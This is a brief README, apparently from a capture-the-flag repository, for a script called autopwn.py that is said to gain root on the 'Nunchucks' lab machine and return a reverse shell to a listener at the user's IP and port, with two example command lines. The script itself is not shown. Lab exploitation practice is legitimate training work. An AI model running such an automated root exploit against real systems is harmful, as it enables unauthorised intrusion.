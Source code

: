 # Nunchucks
Autopwn.py will give you root permissions of the Nunchucks machine when you run it. If you want to run this exploit you will have to specify 3 parameters:
- Host IP: Nunchucks host IP.
- Your own IP: Necessary to receive a reverse shell.
- Your own Port: Port where you are listening.
Example of use:
python3 autopwn.py <Host_IP> <Your_IP> <Your_Port>
python3 autopwn.py 10.10.10.10 10.10.16.8 9999
